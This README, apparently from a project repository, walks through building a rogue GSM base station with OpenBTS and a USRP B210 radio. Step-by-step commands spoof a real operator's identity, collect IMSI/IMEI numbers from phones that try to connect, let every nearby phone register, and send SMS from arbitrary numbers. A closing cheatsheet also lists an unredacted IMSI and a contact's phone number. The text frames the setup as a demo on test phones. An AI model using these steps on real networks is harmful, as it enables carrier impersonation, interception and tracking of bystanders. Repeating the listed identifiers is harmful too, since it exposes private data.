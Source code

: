 * Introduction

We will use OpenBTS and a USRP B210 software defined radio to build a rogue GSM
base station, allowing to send fake SMS, intercept SMS between users, and spoof
the phone provider's identity.

* Requirements

- Ettus USRP B200mini/B210
- GHz Antenna
- 5 GB free
- Some test phones for the experiments. We will catch the IMEI and IMSI of the
  test phones, and whitest them, so that no other user will accidentally
  connect to the test network.

* Installation

OpenBTS official scripts assume to be installed on a Ubuntu 16.04 "Xenial"
system. Hence, a virtual machine is the better way to use it. We use Vagrant to
manage and provision the virtual machine.

First, install the needed tooling (VirtualBox and Vagrant) on the host
computer:

#+begin_src bash
make host-install
#+end_src

Reboot the machine that user group changes take effect.

Then, issue the following command that will install the guest operating system
and the needed tolling on it:

#+begin_src bash
vagrant up
#+end_src

This will create the virtual machine according to the =Vagrantfile= and provision
the guest operating system by calling the =guest-install= Makefile's target. The
operation took between 30 minutes and 1 hour.

* Testing the setup

Make sure the USRP B210 is connected to your machine, then connect to the
virtual machine.

#+begin_src bash
vagrant ssh
#+end_src

First, check that radio is detected:

#+begin_src bash
sudo uhd_find_devices
#+end_src

And that the radio is able to transmit:

#+begin_src bash
cd ~/openbts-install/dev/openbts/debian/openbts/OpenBTS/
sudo ./transceiver
#+end_src

* Mounting the rogue base station

Now, inside the guest, issue each of the following command in a separate
terminal (use =tmux=):

#+begin_src bash
cd ~/openbts-demo && make guest-launch-sipauth
#+end_src

#+begin_src bash
cd ~/openbts-demo && make guest-launch-smqueue
#+end_src

#+begin_src bash
cd ~/openbts-demo && make guest-launch-asterisk
#+end_src

#+begin_src bash
cd ~/openbts-demo && make guest-launch-openbts
#+end_src

Now, you should see a red LED on for the TX/RX antenna and a green LED on for
the RX2 antenna of the USRP.

#+begin_src bash
cd ~/openbts-demo && make guest-launch-openbtscli
#+end_src

Now, you can type commands in the OpenBTSCLI command line interface
(=OpenBTS>=). We assume that the following commands will be typed inside this
prompt.

Adjust the receive gain, 2dB is a good value when the phone are close, to avoid
clipping. Increase to 10dB if you the phone is more distant:

#+begin_src :eval never
rxgain 2
#+end_src

Set the transmission attenuation, e.g. 20dB (adjust to your needs):

#+begin_src :eval never
power 20
#+end_src

Setup a spoofed network identity. You can find MCC and MNC looking at
[[file:html/CellIFDinder.com - MCC MNC List.html]]. We chose an Italian operator
that is not available in France. With a French SIM, you have to select it
manually. With an Italian WIND SIM, it will be chosen automatically. If you
want to use an operator that exist in the area, then you have to overpower its
signal, we chose not to.

#+begin_src :eval never
config GSM.Identity.ShortName WIND
config GSM.Identity.MCC 222
config GSM.Identity.MNC 88
#+end_src

Now, take a test phone and do a manual scan for the networks. You should see a
new carrier appear. Try to connect to the network, you will get a failure, but
this is enough to catch the IMSI/IMEI information. Look at IMSI collected:

#+begin_src :eval never
tmsis
#+end_src

#+begin_example
IMSI            TMSI IMEI            AUTH CREATED ACCESSED TMSI_ASSIGNED
2*************7 -    3*************0 0    3s      3s       0             
#+end_example

We can authorize this specific test phone, a mobile station (MS), to register by its IMSI:

#+begin_src :eval never
config Control.LUR.OpenRegistration 2*************7
#+end_src

Or authorize all MS to register with the following regular expression:

#+begin_src :eval never
config Control.LUR.OpenRegistration .*
#+end_src

Now your phone could connect. You can send an SMS to the phone, from any number
you want.

#+begin_src :eval never
sendsms 2*************7 0610102020 "Hey, you!"
#+end_src

At the end of the demonstration, reset the configuration:

#+begin_src :eval never
rmconfig GSM.Identity.ShortName
rmconfig GSM.Identity.MCC
rmconfig GSM.Identity.MNC
rmconfig Control.LUR.OpenRegistration
rmconfig Control.SMSCB.Table
#+end_src

If you add two phones, they can send each other messages. Once you are done,
close all the programs. Then, halt the virtual machine.

#+begin_src bash
vagrant halt
#+end_src

* Cheatsheet

#+begin_example
IMSI of OnePlus 3T: 208017706545823
Number of one contact of mine: 0698803022

Series of command for OpenBTSCLI:

rxgain 2
power 20

config GSM.Identity.ShortName WIND
config GSM.Identity.MCC 222
config GSM.Identity.MNC 88

tmsis
config Control.LUR.OpenRegistration 208017706545823
OR
config Control.LUR.OpenRegistration .*
sendsms 208017706545823 0698803022 "Hey, you!"

rmconfig GSM.Identity.ShortName
rmconfig GSM.Identity.MCC
rmconfig GSM.Identity.MNC
rmconfig Control.LUR.OpenRegistration
rmconfig Control.SMSCB.Table
#+end_example

